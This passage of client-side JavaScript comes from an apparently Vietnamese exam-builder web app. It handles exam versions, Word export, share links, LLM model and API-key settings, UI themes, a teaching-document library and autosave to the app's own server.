  let wrap = document.getElementById('examVersionsWrap');
  if (!wrap) {
    wrap = document.createElement('div');
    wrap.id = 'examVersionsWrap';
    examContainerEl.after(wrap);
  }
  wrap.innerHTML = '';
  examContainerEl.classList.add('exam-container-hidden');

  state.examVersions.forEach((version, i) => {
    const tabBtn = document.createElement('button');
    tabBtn.type = 'button';
    tabBtn.className = 'code-tab-btn' + (i === state.activeVersionIndex ? ' active' : '');
    tabBtn.textContent = version.code;
    tabBtn.addEventListener('click', () => {
      state.activeVersionIndex = i;
      codeTabsEl.querySelectorAll('.code-tab-btn').forEach((b, bi) => b.classList.toggle('active', bi === i));
      wrap.querySelectorAll('.exam-version').forEach((el, ei) => el.classList.toggle('active', ei === i));
    });
    codeTabsEl.appendChild(tabBtn);

    const versionEl = document.createElement('div');
    versionEl.className = 'exam-container exam-version' + (i === state.activeVersionIndex ? ' active' : '');
    wrap.appendChild(versionEl);
    versionContainers.set(version.code, versionEl);
    renderVersionContainer(version, versionEl);
  });

  document.getElementById('multiCodeSummary').textContent =
    `Đã tạo ${state.examVersions.length} mã đề: ${state.examVersions.map(v => v.code).join(', ')}. ` +
    `Số câu mỗi mã đề — ${statsRangeText(state.examVersions)}.`;
}

document.getElementById('generateMultiCodeBtn').addEventListener('click', () => {
  hideError();
  if (!state.blocks.length) { showError('Hãy sinh đề kiểm tra trước khi tạo mã đề.'); return; }

  const q = parseInt(document.getElementById('multiCodeCount').value, 10);
  const startRaw = parseInt(document.getElementById('multiCodeStart').value, 10);
  const prefix = document.getElementById('multiCodePrefix').value.trim() || 'Đề';

  if (!Number.isFinite(q) || q < 2) { showError('Số mã đề (q) phải là số nguyên >= 2.'); return; }

  try {
    const versions = generateExamCodes(state.blocks, q, { prefix, start: Number.isFinite(startRaw) ? startRaw : 101 });
    state.examVersions = versions;
    state.activeVersionIndex = 0;
    renderExamVersions();
  } catch (err) {
    showError(err.message);
  }
});

function toggleActionButtons(enabled) {
  document.getElementById('shareBtn').disabled = !enabled;
  document.getElementById('exportPdfBtn').disabled = !enabled;
  document.getElementById('exportWordBtn').disabled = !enabled;
}

// ---------- Helpers ----------
function showError(msg) { errorMessageEl.textContent = msg; }
function hideError() { errorMessageEl.textContent = ''; }
function escapeHtml(str) {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
}

function buildExamPayload() {
  return {
    title: state.title,
    subject: state.subject,
    duration_minutes: state.duration_minutes,
    school_header: state.school_header,
    blocks: state.blocks,
    template_binding: state.template_binding
  };
}

function downloadBlob(blob, filename) {
  const url = URL.createObjectURL(blob);
  const a = document.createElement('a');
  a.href = url;
  a.download = filename;
  document.body.appendChild(a);
  a.click();
  document.body.removeChild(a);
  URL.revokeObjectURL(url);
}

// ---------- Export PDF (print) ----------
document.getElementById('exportPdfBtn').addEventListener('click', () => {
  window.print();
});

// ---------- Export Word (.docx) ----------
function buildWordChildren(meta, blocks) {
  const { Paragraph, TextRun, HeadingLevel, AlignmentType } = docx;
  const children = [];

  if (meta.codeLabel) {
    children.push(new Paragraph({
      children: [new TextRun({ text: `Mã đề: ${meta.codeLabel}`, bold: true })],
      alignment: AlignmentType.RIGHT
    }));
  }
  if (meta.school_header) {
    children.push(new Paragraph({ text: meta.school_header, alignment: AlignmentType.CENTER }));
  }
  children.push(new Paragraph({ text: meta.title || 'Đề kiểm tra', heading: HeadingLevel.HEADING_1, alignment: AlignmentType.CENTER }));
  const subParts = [];
  if (meta.subject) subParts.push(`Môn: ${meta.subject}`);
  if (meta.duration_minutes) subParts.push(`Thời gian: ${meta.duration_minutes} phút`);
  if (subParts.length) children.push(new Paragraph({ text: subParts.join('   '), alignment: AlignmentType.CENTER }));
  children.push(new Paragraph({ text: '' }));

  let questionNo = 0; // danh so lien tuc 1..N cho ca de
  blocks.forEach(block => {
    children.push(new Paragraph({ text: block.block_title || '', heading: HeadingLevel.HEADING_2 }));

    block.questions.forEach((q) => {
      questionNo += 1;
      // latexToPlainText(): Word la text tinh, khong the render KaTeX nhu
      // tren man hinh - phai lam phang LaTeX ($...$) sang Unicode truoc khi
      // dua vao TextRun, tranh hien thi tho nguyen "$\sqrt{16}$" trong file.
      children.push(new Paragraph({
        children: [new TextRun({ text: `Câu ${questionNo}: `, bold: true }), new TextRun(latexToPlainText(q.content))]
      }));

      if (q.question_type === 'MCQ') {
        q.options.forEach(opt => {
          children.push(new Paragraph({ text: `   ${opt.option_key}. ${latexToPlainText(opt.option_text)}` }));
        });
        if (!state.isStudentMode) {
          children.push(new Paragraph({
            children: [new TextRun({ text: `Đáp án: ${q.correct_answer}`, italics: true, color: '16A34A' })]
          }));
        }
      } else if (q.question_type === 'TRUE_FALSE') {
        children.push(new Paragraph({ text: '   ☐ Đúng      ☐ Sai' }));
        if (!state.isStudentMode) {
          children.push(new Paragraph({
            children: [new TextRun({ text: `Đáp án: ${q.correct_answer === 'Dung' ? 'Đúng' : 'Sai'}`, italics: true, color: '16A34A' })]
          }));
        }
      } else if (q.question_type === 'FILL_BLANK') {
        children.push(new Paragraph({ text: '   Trả lời: ....................................' }));
        if (!state.isStudentMode) {
          children.push(new Paragraph({
            children: [new TextRun({ text: `Đáp án: ${latexToPlainText(q.correct_answer) || ''}`, italics: true, color: '16A34A' })]
          }));
        }
      } else if (q.question_type === 'ESSAY') {
        const lines = q.draft_lines_count || 0;
        for (let i = 0; i < lines; i++) {
          children.push(new Paragraph({ text: '.......................................................................' }));
        }
      }

      if (!state.isStudentMode && q.explanation) {
        // Moi cau lời giải mot dong rieng cho de doc (giong khu Xem truoc).
        const explSentences = latexToPlainText(q.explanation).split(/(?<=\.)\s+(?=\S)/).map(s => s.trim()).filter(Boolean);
        explSentences.forEach((sen, si) => {
          children.push(new Paragraph({
            children: [new TextRun({ text: `${si === 0 ? 'Giải thích: ' : '   '}${sen}`, italics: true, color: '92400E' })]
          }));
        });
      }
      children.push(new Paragraph({ text: '' }));
    });
  });

  return children;
}

async function exportToWord() {
  const { Document, Packer, Paragraph, PageBreak } = docx;
  const meta = { title: state.title, subject: state.subject, duration_minutes: state.duration_minutes, school_header: state.school_header };

  let children;
  if (state.examVersions.length) {
    children = [];
    state.examVersions.forEach((version, i) => {
      if (i > 0) children.push(new Paragraph({ children: [new PageBreak()] }));
      children.push(...buildWordChildren({ ...meta, codeLabel: version.code }, version.blocks));
    });
  } else {
    children = buildWordChildren(meta, state.blocks);
  }

  const doc = new Document({ sections: [{ children }] });
  const blob = await Packer.toBlob(doc);
  const filename = `${(state.title || 'de-kiem-tra').replace(/\s+/g, '_')}.docx`;
  downloadBlob(blob, filename);
}
document.getElementById('exportWordBtn').addEventListener('click', () => {
  exportToWord().catch(err => showError('Lỗi xuất Word: ' + err.message));
});

// ---------- Share link ----------
async function generateShareLink() {
  const payload = buildExamPayload();
  const json = JSON.stringify(payload);
  // Link ?data= nam trong tay hoc sinh: chi ma hoa ban da bo dap an/loi giai.
  const base64 = btoa(unescape(encodeURIComponent(JSON.stringify(redactExamForStudent(payload)))));

  let url;
  let shareCode = null;
  if (base64.length < 1800) {
    url = `${location.origin}${location.pathname}?data=${encodeURIComponent(base64)}`;
  } else {
    try {
      const saveRes = await fetch('/api/exams/save', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: json
      });
      const saveData = await saveRes.json();
      if (!saveData.success) throw new Error(saveData.error);
      state.examId = saveData.exam_id;

      const shareRes = await fetch('/api/exams/share', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ exam_id: state.examId })
      });
      const shareData = await shareRes.json();
      if (!shareData.success) throw new Error(shareData.error);
      shareCode = shareData.share_code;
      url = `${location.origin}${location.pathname}?code=${shareCode}`;
    } catch (err) {
      showError('Không thể tạo link chia sẻ qua máy chủ: ' + err.message);
      return;
    }
  }

  state.activeShareCode = shareCode;
  document.getElementById('shareLinkOutput').value = url;

  const revokeBtn = document.getElementById('revokeShareLinkBtn');
  const revokeHint = document.getElementById('shareRevokeHint');
  revokeBtn.classList.toggle('form-hidden', !shareCode);
  revokeBtn.disabled = false;
  revokeBtn.textContent = 'Thu hồi link';
  revokeHint.textContent = shareCode
    ? ''
    : 'Link dạng dán trực tiếp dữ liệu vào URL, không lưu trên máy chủ nên không thể thu hồi.';

  document.getElementById('shareModal').classList.add('open');
}
document.getElementById('shareBtn').addEventListener('click', () => {
  generateShareLink().catch(err => showError('Lỗi tạo link chia sẻ: ' + err.message));
});
document.getElementById('copyShareLinkBtn').addEventListener('click', async () => {
  const input = document.getElementById('shareLinkOutput');
  input.select();
  try {
    await navigator.clipboard.writeText(input.value);
  } catch {
    document.execCommand('copy');
  }
});
document.getElementById('revokeShareLinkBtn').addEventListener('click', async () => {
  if (!state.activeShareCode) return;
  const revokeBtn = document.getElementById('revokeShareLinkBtn');
  try {
    const res = await fetch(`/api/exams/share/${state.activeShareCode}`, { method: 'DELETE' });
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    revokeBtn.disabled = true;
    revokeBtn.textContent = 'Đã thu hồi';
    document.getElementById('shareRevokeHint').textContent = 'Link này đã bị vô hiệu hoá, sẽ không còn mở được nữa.';
  } catch (err) {
    showError('Lỗi thu hồi link chia sẻ: ' + err.message);
  }
});
document.getElementById('closeShareModalBtn').addEventListener('click', () => {
  document.getElementById('shareModal').classList.remove('open');
});

// ---------- Sinh de tu dong bang LLM (module cong them) ----------
let cachedModels = [];
let cachedLiveCloudModels = []; // [{provider, model_name, display_name}] - lay live tu API, khong luu DB
let cachedResources = [];
const CLOUD_PROVIDER_LABELS = { openai: 'OpenAI', anthropic: 'Anthropic', gemini: 'Gemini' };

function modelLabel(m) {
  const kind = m.source_type === 'local_gguf' ? 'Local' : (m.provider || '').toUpperCase();
  return `${m.display_name} (${kind})`;
}

async function loadModels() {
  try {
    const res = await fetch('/api/models');
    const data = await res.json();
    cachedModels = data.success ? data.models : [];
  } catch {
    cachedModels = [];
  }
  renderModelSelect();
  renderModelManagerList();
}

function renderModelSelect() {
  const select = document.getElementById('autoModelSelect');
  const prev = select.value;
  const groups = [];

  const localModels = cachedModels.filter(m => m.source_type === 'local_gguf');
  if (localModels.length) {
    groups.push(`<optgroup label="Model cục bộ">${
      localModels.map(m => `<option value="local:${m.model_id}">${escapeHtml(m.display_name)}</option>`).join('')
    }</optgroup>`);
  }

  // Model cloud lo dang ky thu cong tu truoc (co san trong LLM_MODEL) - van
  // cho chon de tuong thich nguoc, gom rieng khoi tranh lan voi model live.
  const legacyCloudModels = cachedModels.filter(m => m.source_type === 'cloud');
  if (legacyCloudModels.length) {
    groups.push(`<optgroup label="Đã đăng ký (cũ)">${
      legacyCloudModels.map(m => `<option value="legacy:${m.model_id}">${escapeHtml(modelLabel(m))}</option>`).join('')
    }</optgroup>`);
  }

  for (const providerKey of Object.keys(CLOUD_PROVIDER_LABELS)) {
    const items = cachedLiveCloudModels.filter(m => m.provider === providerKey);
    if (items.length) {
      groups.push(`<optgroup label="${CLOUD_PROVIDER_LABELS[providerKey]}">${
        items.map(m => `<option value="cloud:${providerKey}:${m.model_name}">${escapeHtml(m.display_name)}</option>`).join('')
      }</optgroup>`);
    }
  }

  select.innerHTML = groups.length
    ? groups.join('')
    : '<option value="">— Chưa có model, hãy lưu API key hoặc tải model local trong Cài đặt —</option>';

  const allValues = new Set([
    ...localModels.map(m => `local:${m.model_id}`),
    ...legacyCloudModels.map(m => `legacy:${m.model_id}`),
    ...cachedLiveCloudModels.map(m => `cloud:${m.provider}:${m.model_name}`)
  ]);
  if (allValues.has(prev)) select.value = prev;
}

function showSettingsStatus(msg) {
  document.getElementById('uploadLocalModelStatus').textContent = msg;
}

function renderModelManagerList() {
  const list = document.getElementById('modelManagerList');
  list.innerHTML = '';
  cachedModels.forEach(m => {
    const li = document.createElement('li');
    li.className = 'form-question-item';

    const info = document.createElement('div');
    info.className = 'form-question-item-info';
    const sizeInfo = m.file_size ? ` · ${(m.file_size / (1024 * 1024)).toFixed(0)}MB` : '';
    info.innerHTML = `<strong>${escapeHtml(modelLabel(m))}</strong><span>${escapeHtml(m.model_name || '')}${sizeInfo}</span>`;

    const actions = document.createElement('div');
    actions.className = 'form-question-item-actions';

    if (m.source_type === 'cloud') {
      const testBtn = document.createElement('button');
      testBtn.type = 'button';
      testBtn.className = 'edit-btn';
      testBtn.textContent = 'Kiểm tra';
      testBtn.addEventListener('click', async () => {
        testBtn.textContent = '...';
        try {
          const res = await fetch('/api/settings/llm/test', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ provider: m.provider, model_name: m.model_name })
          });
          const data = await res.json();
          testBtn.textContent = data.success ? '✅ OK' : '❌ Lỗi';
          if (!data.success) showSettingsStatus(data.error);
        } catch (err) {
          testBtn.textContent = '❌ Lỗi';
          showSettingsStatus(err.message);
        }
        setTimeout(() => { testBtn.textContent = 'Kiểm tra'; }, 3000);
      });
      actions.appendChild(testBtn);
    }

    const delBtn = document.createElement('button');
    delBtn.type = 'button';
    delBtn.className = 'delete-btn';
    delBtn.textContent = 'Xóa';
    delBtn.addEventListener('click', async () => {
      try {
        const res = await fetch(`/api/models/${m.model_id}`, { method: 'DELETE' });
        const data = await res.json();
        if (!data.success) throw new Error(data.error);
        loadModels();
      } catch (err) {
        showSettingsStatus('Lỗi xóa model: ' + err.message);
      }
    });
    actions.appendChild(delBtn);

    li.appendChild(info);
    li.appendChild(actions);
    list.appendChild(li);
  });
}

async function loadProviderKeyStatus() {
  try {
    const res = await fetch('/api/settings/llm');
    const data = await res.json();
    const configured = new Set((data.success ? data.providers : []).map(p => p.provider));
    document.querySelectorAll('.settings-provider-row').forEach(row => {
      const status = row.querySelector('.provider-status');
      status.textContent = configured.has(row.dataset.provider) ? '✅ Đã lưu key' : 'Chưa cấu hình';
    });
  } catch {
    // Giu nguyen trang thai hien tai, khong chan viec mo modal.
  }
}

async function loadLiveCloudModels() {
  cachedLiveCloudModels = [];
  try {
    const res = await fetch('/api/settings/llm');
    const data = await res.json();
    const providers = data.success ? data.providers.map(p => p.provider) : [];
    for (const provider of providers) {
      try {
        const mRes = await fetch('/api/settings/llm/models', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ provider })
        });
        const mData = await mRes.json();
        if (mData.success) {
          for (const m of mData.models) {
            cachedLiveCloudModels.push({ provider, model_name: m.id, display_name: m.display_name || m.id });
          }
        }
      } catch {
        // Provider nay loi (key sai, mat mang...) - bo qua, khong chan cac provider khac.
      }
    }
  } catch {
    // Khong lay duoc danh sach provider da luu key - giu cachedLiveCloudModels rong.
  }
  renderModelSelect();
}

document.querySelectorAll('.save-key-btn').forEach(btn => {
  btn.addEventListener('click', async () => {
    const row = btn.closest('.settings-provider-row');
    const input = row.querySelector('.provider-key-input');
    const apiKey = input.value.trim();
    if (!apiKey) { showSettingsStatus('Vui lòng nhập API key.'); return; }
    try {
      const res = await fetch('/api/settings/llm', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ provider: row.dataset.provider, api_key: apiKey })
      });
      const data = await res.json();
      if (!data.success) throw new Error(data.error);
      input.value = '';
      loadProviderKeyStatus();
      loadLiveCloudModels();
    } catch (err) {
      showSettingsStatus('Lỗi lưu API key: ' + err.message);
    }
  });
});

document.getElementById('uploadLocalModelBtn').addEventListener('click', async () => {
  const fileInput = document.getElementById('localModelFile');
  const file = fileInput.files[0];
  if (!file) { showSettingsStatus('Vui lòng chọn file .gguf.'); return; }

  const formData = new FormData();
  formData.append('model_file', file);
  const displayName = document.getElementById('localModelDisplay').value.trim();
  if (displayName) formData.append('display_name', displayName);

  showSettingsStatus('Đang tải lên... có thể mất nhiều phút với file lớn, đừng đóng cửa sổ.');
  try {
    const res = await fetch('/api/models/local', { method: 'POST', body: formData });
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    showSettingsStatus('✅ Đã tải lên thành công.');
    fileInput.value = '';
    document.getElementById('localModelDisplay').value = '';
    loadModels();
  } catch (err) {
    showSettingsStatus('❌ Lỗi tải model: ' + err.message);
  }
});

document.getElementById('settingsBtn').addEventListener('click', () => {
  loadProviderKeyStatus();
  loadModels();
  syncAppearanceUI();
  document.getElementById('settingsModal').classList.add('open');
});
document.getElementById('closeSettingsModalBtn').addEventListener('click', () => {
  document.getElementById('settingsModal').classList.remove('open');
  loadLiveCloudModels(); // phan anh key vua luu/xoa vao dropdown Model ma khong can tai lai trang
});

// ---------- Cai dat > Giao dien (chu de mau + co chu) ----------
// Danh sach theme lay TU CHINH cac nut trong #themeGrid (index.html) -> them
// theme moi chi can them 1 nut o do + 1 khoi CSS, khong sua file nay.
const THEME_IDS = [...document.querySelectorAll('#themeGrid .theme-card')].map(b => b.dataset.theme);
const THEME_MIGRATE = { blue: 'cold', teal: 'ocean', forest: 'meadow', amber: 'summer', violet: 'blossom' };

function currentTheme() {
  let t;
  try { t = localStorage.getItem('eb_theme'); } catch { t = null; }
  if (THEME_MIGRATE[t]) t = THEME_MIGRATE[t];
  return THEME_IDS.includes(t) ? t : 'cold';
}
function currentScale() {
  try { return parseFloat(localStorage.getItem('eb_uiScale')) || 1; } catch { return 1; }
}
// Moc thoi gian lan cuoi nguoi dung doi theme - dung cho dong bo Gist ("lan doi
// gan nhat thang"). Chua tung doi -> epoch => luon thua may da doi.
function currentThemeAt() {
  try { return localStorage.getItem('eb_theme_at') || '1970-01-01T00:00:00.000Z'; }
  catch { return '1970-01-01T00:00:00.000Z'; }
}
// Ap theme nhan tu Gist (khi Pull/Push tra ve ban moi hon). Tra ve true neu doi.
function adoptSyncedTheme(theme) {
  if (!theme || typeof theme.id !== 'string') return false;
  let id = theme.id;
  if (THEME_MIGRATE[id]) id = THEME_MIGRATE[id];
  if (!THEME_IDS.includes(id) || id === currentTheme()) return false;
  try {
    localStorage.setItem('eb_theme', id);
    localStorage.setItem('eb_theme_at', theme.updated_at || new Date().toISOString());
    localStorage.removeItem('eb_mode');
  } catch {}
  applyAppearance();
  syncAppearanceUI();
  return true;
}

function applyAppearance() {
  const root = document.documentElement;
  const t = currentTheme();
  if (t === 'cold') delete root.dataset.theme;
  else root.dataset.theme = t;
  delete root.dataset.mode; // khong con dung che do toi rieng
  root.style.setProperty('--ui-scale', String(currentScale()));
}

function syncAppearanceUI() {
  const t = currentTheme();
  document.querySelectorAll('#themeGrid .theme-card').forEach(b => {
    b.classList.toggle('active', b.dataset.theme === t);
  });
  const sc = currentScale();
  document.querySelectorAll('#fontSizeGroup button').forEach(b => {
    b.classList.toggle('active', parseFloat(b.dataset.scale) === sc);
  });
}

document.querySelectorAll('#themeGrid .theme-card').forEach(btn => {
  btn.addEventListener('click', () => {
    try {
      localStorage.setItem('eb_theme', btn.dataset.theme);
      localStorage.setItem('eb_theme_at', new Date().toISOString());
      localStorage.removeItem('eb_mode');
    } catch {}
    applyAppearance();
    syncAppearanceUI();
  });
});
document.querySelectorAll('#fontSizeGroup button').forEach(btn => {
  btn.addEventListener('click', () => {
    try { localStorage.setItem('eb_uiScale', btn.dataset.scale); } catch {}
    applyAppearance();
    syncAppearanceUI();
  });
});

applyAppearance();
syncAppearanceUI();

// ---------- Thu vien tai lieu ----------
async function loadResources() {
  try {
    const res = await fetch('/api/resources');
    const data = await res.json();
    cachedResources = data.success ? data.documents : [];
  } catch {
    cachedResources = [];
  }
  renderDocSelect();
  renderDocListForSections();
}

function renderSectionCheckboxes() {
  const wrap = document.getElementById('autoSectionCheckboxes');
  const docId = document.getElementById('autoDocSelect').value;
  const doc = cachedResources.find(d => d.doc_id === docId);
  if (!doc || !doc.sections.length) {
    wrap.innerHTML = '';
    return;
  }
  wrap.innerHTML = doc.sections.map(s => `
    <label class="section-checkbox-label">
      <input type="checkbox" value="${s.section_id}" checked />
      ${escapeHtml(s.section_title)}
    </label>
  `).join('');
}

function renderDocSelect() {
  const select = document.getElementById('autoDocSelect');
  const prev = select.value;
  select.innerHTML = '<option value="">— Không dùng tài liệu —</option>' +
    cachedResources.map(d => `<option value="${d.doc_id}">${escapeHtml(d.title)}</option>`).join('');
  if (cachedResources.some(d => d.doc_id === prev)) select.value = prev;
  renderSectionCheckboxes();
}
document.getElementById('autoDocSelect').addEventListener('change', renderSectionCheckboxes);

document.getElementById('addDocBtn').addEventListener('click', async () => {
  const title = document.getElementById('newDocTitle').value.trim();
  const subject = document.getElementById('newDocSubject').value.trim();
  if (!title) { showError('Vui lòng nhập tên tài liệu.'); return; }
  try {
    const res = await fetch('/api/resources', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ title, subject })
    });
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    document.getElementById('newDocTitle').value = '';
    document.getElementById('newDocSubject').value = '';
    loadResources();
  } catch (err) {
    showError('Lỗi tạo tài liệu: ' + err.message);
  }
});

function renderDocListForSections() {
  const wrap = document.getElementById('docListForSections');
  wrap.innerHTML = '';
  cachedResources.forEach(doc => {
    const box = document.createElement('div');
    box.className = 'doc-sections-box';

    const title = document.createElement('strong');
    title.textContent = `${doc.title}${doc.subject ? ' · ' + doc.subject : ''} (${doc.sections.length} phần)`;
    box.appendChild(title);

    const sectionTitleInput = document.createElement('input');
    sectionTitleInput.type = 'text';
    sectionTitleInput.placeholder = 'Tên phần (VD: Chương 1 - Số nguyên)';
    const sectionContentInput = document.createElement('textarea');
    sectionContentInput.rows = 3;
    sectionContentInput.placeholder = 'Nội dung phần (dán nguyên văn từ giáo trình)...';

    const addSectionBtn = document.createElement('button');
    addSectionBtn.type = 'button';
    addSectionBtn.className = 'secondary-btn';
    addSectionBtn.textContent = '+ Thêm phần';
    addSectionBtn.addEventListener('click', async () => {
      const section_title = sectionTitleInput.value.trim();
      const content = sectionContentInput.value.trim();
      if (!section_title || !content) { showError('Vui lòng nhập tên phần và nội dung.'); return; }
      try {
        const res = await fetch(`/api/resources/${doc.doc_id}/sections`, {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ section_title, content })
        });
        const data = await res.json();
        if (!data.success) throw new Error(data.error);
        loadResources();
      } catch (err) {
        showError('Lỗi thêm phần: ' + err.message);
      }
    });

    const sectionFileInput = document.createElement('input');
    sectionFileInput.type = 'file';
    sectionFileInput.accept = '.txt,.docx,.pdf';

    const uploadSectionBtn = document.createElement('button');
    uploadSectionBtn.type = 'button';
    uploadSectionBtn.className = 'secondary-btn';
    uploadSectionBtn.textContent = '📤 Tải file lên';
    uploadSectionBtn.addEventListener('click', async () => {
      const file = sectionFileInput.files[0];
      if (!file) { showError('Vui lòng chọn file (.txt, .docx, .pdf) trước.'); return; }
      const formData = new FormData();
      formData.append('file', file);
      const section_title = sectionTitleInput.value.trim();
      if (section_title) formData.append('section_title', section_title);
      try {
        const res = await fetch(`/api/resources/${doc.doc_id}/sections/upload`, { method: 'POST', body: formData });
        const data = await res.json();
        if (!data.success) throw new Error(data.error);
        sectionFileInput.value = '';
        loadResources();
      } catch (err) {
        showError('Lỗi tải file: ' + err.message);
      }
    });

    const delDocBtn = document.createElement('button');
    delDocBtn.type = 'button';
    delDocBtn.className = 'delete-btn';
    delDocBtn.textContent = 'Xóa tài liệu';
    delDocBtn.addEventListener('click', async () => {
      try {
        const res = await fetch(`/api/resources/${doc.doc_id}`, { method: 'DELETE' });
        const data = await res.json();
        if (!data.success) throw new Error(data.error);
        loadResources();
      } catch (err) {
        showError('Lỗi xóa tài liệu: ' + err.message);
      }
    });

    box.appendChild(sectionTitleInput);
    box.appendChild(sectionContentInput);
    box.appendChild(addSectionBtn);
    box.appendChild(sectionFileInput);
    box.appendChild(uploadSectionBtn);
    box.appendChild(delDocBtn);
    wrap.appendChild(box);
  });
}

// ---------- Nut "Sinh de tu dong" ----------
function collectQuestionSpec() {
  const spec = [];
  document.querySelectorAll('#autoSpecTable input[type="number"]').forEach(input => {
    const so_luong = parseInt(input.value, 10);
    if (Number.isFinite(so_luong) && so_luong > 0) {
      spec.push({ loai: input.dataset.loai, muc_do: input.dataset.mucDo, so_luong });
    }
  });
  return spec;
}

document.getElementById('autoGenerateBtn').addEventListener('click', async () => {
  hideError();
  const statusEl = document.getElementById('autoGenerateStatus');
  const btn = document.getElementById('autoGenerateBtn');

  const selectedValue = document.getElementById('autoModelSelect').value;
  if (!selectedValue) { showError('Vui lòng chọn 1 model (lưu API key hoặc tải model local trong Cài đặt trước).'); return; }

  const questionSpec = collectQuestionSpec();
  if (!questionSpec.length) { showError('Vui lòng nhập số lượng câu hỏi cho ít nhất 1 loại × mức độ.'); return; }

  const sectionIds = Array.from(document.querySelectorAll('#autoSectionCheckboxes input:checked')).map(i => i.value);
  const topic = document.getElementById('autoTopicInput').value.trim();
  const extraInstructions = document.getElementById('autoExtraPromptInput').value.trim();

  // "local:<model_id>" / "legacy:<model_id>" -> gui model_id (LLM_MODEL).
  // "cloud:<provider>:<model_name>" -> gui thang provider/model_name, khong can dang ky.
  const requestBody = { section_ids: sectionIds, topic, question_spec: questionSpec, extra_instructions: extraInstructions };
  if (selectedValue.startsWith('cloud:')) {
    const rest = selectedValue.slice('cloud:'.length);
    const sep = rest.indexOf(':');
    requestBody.provider = rest.slice(0, sep);
    requestBody.model_name = rest.slice(sep + 1);
  } else if (selectedValue.startsWith('local:') || selectedValue.startsWith('legacy:')) {
    requestBody.model_id = selectedValue.slice(selectedValue.indexOf(':') + 1);
  }

  btn.disabled = true;
  statusEl.textContent = 'Đang sinh đề... có thể mất vài chục giây tới vài phút, đặc biệt với model local.';

  try {
    const res = await fetch('/api/generate', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify(requestBody)
    });
    const data = await res.json();
    if (!data.success) {
      throw new Error(data.details ? `${data.error}: ${data.details}` : data.error);
    }
    applyGeneratedBlocks(data.blocks);
    statusEl.textContent = '✅ Đã sinh đề thành công.';
  } catch (err) {
    statusEl.textContent = '';
    showError('Lỗi sinh đề tự động: ' + err.message);
  } finally {
    btn.disabled = false;
  }
});

loadModels();
loadLiveCloudModels();
loadResources();

// ---------- Load exam from share link on page load ----------
function loadExamIntoState(exam) {
  state.title = exam.title;
  state.subject = exam.subject;
  state.duration_minutes = exam.duration_minutes;
  state.school_header = exam.school_header;
  state.blocks = exam.blocks;
  ensureIds(state.blocks);
  normalizeExamMath(state.blocks); // TASK E: nang cap cong thuc toan de cu -> $...$
  state.isStudentMode = true;

  document.getElementById('examTitleInput').value = state.title || '';
  document.getElementById('examSubjectInput').value = state.subject || '';
  document.getElementById('examDurationInput').value = state.duration_minutes || '';
  document.getElementById('examSchoolInput').value = state.school_header || '';
  document.getElementById('studentModeToggle').checked = true;
  document.getElementById('appMain').classList.add('shared-view');

  renderExam();
  toggleActionButtons(true);
}

(async function initFromShareLink() {
  const params = new URLSearchParams(location.search);
  const dataParam = params.get('data');
  const codeParam = params.get('code');

  if (dataParam) {
    try {
      const json = decodeURIComponent(escape(atob(decodeURIComponent(dataParam))));
      loadExamIntoState(JSON.parse(json));
    } catch (err) {
      showError('Link chia sẻ không hợp lệ.');
    }
  } else if (codeParam) {
    try {
      const res = await fetch(`/api/exams/shared/${codeParam}`);
      const data = await res.json();
      if (!data.success) throw new Error(data.error);
      loadExamIntoState(data.exam);
    } catch (err) {
      showError('Không thể tải đề thi chia sẻ: ' + err.message);
    }
  }
})();

// ============================================================
//  Kho de (lich su luu tru) + Dong bo GitHub Gist
// ============================================================

const ARCHIVE_SAVE_DEBOUNCE_MS = 1500;
let archiveSaveTimer = null;
let archiveSaveInFlight = false;
let archiveSaveQueued = false;

// Khong tu luu khi dang xem de qua link chia se (che do nguoi nhan) hoac khi
// chua co de nao.
function canAutosaveArchive() {
  return state.blocks.length > 0 && !document.getElementById('appMain').classList.contains('shared-view');
}

function scheduleArchiveSave(opts = {}) {
  if (!canAutosaveArchive()) return;
  clearTimeout(archiveSaveTimer);
  if (opts.immediate) {
    archiveSaveTimer = null;
    doArchiveSave();
  } else {
    archiveSaveTimer = setTimeout(() => { archiveSaveTimer = null; doArchiveSave(); }, ARCHIVE_SAVE_DEBOUNCE_MS);
  }
}

async function doArchiveSave() {
  if (!canAutosaveArchive()) return;
  if (archiveSaveInFlight) { archiveSaveQueued = true; return; }
  archiveSaveInFlight = true;
  try {
    const payload = buildExamPayload();
    if (state.archiveId) payload.exam_id = state.archiveId;
    const res = await fetch('/api/archive', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify(payload)
    });
    const data = await res.json();
    if (data.success && data.exam_id) state.archiveId = data.exam_id;
  } catch {
    // Luu kho la tinh nang nen - loi mang khong duoc chan luong soan de.
  } finally {
    archiveSaveInFlight = false;
    if (archiveSaveQueued) { archiveSaveQueued = false; scheduleArchiveSave(); }
  }
}

function flushArchiveSaveOnUnload() {
  // Chi gui khi con thay doi chua luu (dang cho debounce). Neu khong co timer
  // treo thi lan luu gan nhat da bat het thay doi -> khong gui trung.
  if (!archiveSaveTimer && !archiveSaveQueued) return;
  clearTimeout(archiveSaveTimer);
  archiveSaveTimer = null;
  if (!canAutosaveArchive() || !navigator.sendBeacon) return;
  const payload = buildExamPayload();
  if (state.archiveId) payload.exam_id = state.archiveId;
  try {
    navigator.sendBeacon('/api/archive', new Blob([JSON.stringify(payload)], { type: 'application/json' }));
  } catch {
    // ignore
  }
}
window.addEventListener('beforeunload', flushArchiveSaveOnUnload);

// Autosave khi sua truc tiep tren ban xem truoc: content/option/explanation/
// dap an dien tu bubble qua 'input'; select Dung-Sai va so dong nhap qua 'change'.
examContainerEl.addEventListener('input', () => scheduleArchiveSave());
examContainerEl.addEventListener('change', () => scheduleArchiveSave());

// Sua meta de thi (tieu de / mon / thoi gian / truong) sau khi da sinh de:
// dong bo vao state + luu kho.
